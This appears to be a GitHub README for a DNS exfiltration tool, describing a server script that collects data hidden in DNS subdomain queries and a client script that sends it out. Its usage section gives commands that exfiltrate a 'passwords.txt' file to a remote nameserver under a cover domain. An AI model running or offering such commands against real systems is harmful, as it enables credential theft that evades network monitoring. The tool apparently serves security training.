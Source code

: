 ## DNS-Exfiltration

### Overview

This project contains two scripts: `server.py` and `client.py`. These scripts are used to demonstrate DNS exfiltration, where data is covertly sent from a client to a server using DNS queries.

### server.py

The `server.py` script sets up a DNS server that listens for DNS queries. It extracts data from the subdomain of incoming DNS queries, decodes it, and saves it to a specified file.

### client.py

The `client.py` script is used to send data to the DNS server by encoding the data in the subdomain of DNS queries. 

### Prerequisites

- Python 3.x
- dnslib
- colorama

You can install the required Python packages using pip:

### Usage

#### Running the DNS Server

1. Run the `server.py` script with the `-o` or `--output` option to specify the output file where the exfiltrated data will be saved.

```bash
python3 ./server.py -o output.txt
``` 
Pro Server Options

```bash
python3 ./server.py -o output.txt -p 53
```

The server will start listening on port `53` for incoming DNS queries.

#### Running the DNS Client

1. Use the `client.py` script to send data to the DNS server. This script will encode the data and send it in the subdomain of DNS queries to the server.

Here's an example of how to run the client script:

```sh
python3 ./client.py -d "google.com" -f "passwords.txt"
```

Pro Client Options
```sh
python3 client.py -d legitimate-domain.com -f passwords.txt -p 53 --nameserver 10.10.166.126
```

In this example, `legitimate-domain.com` is the domain to which the DNS queries will be sent, and `passwords` is the file containing the data to be exfiltrated.

![](https://i.imgur.com/f2D0Z7p.png)

### Note

This project is for educational purposes only. Unauthorized data exfiltration is illegal and unethical. Always obtain proper authorization before testing any security mechanism.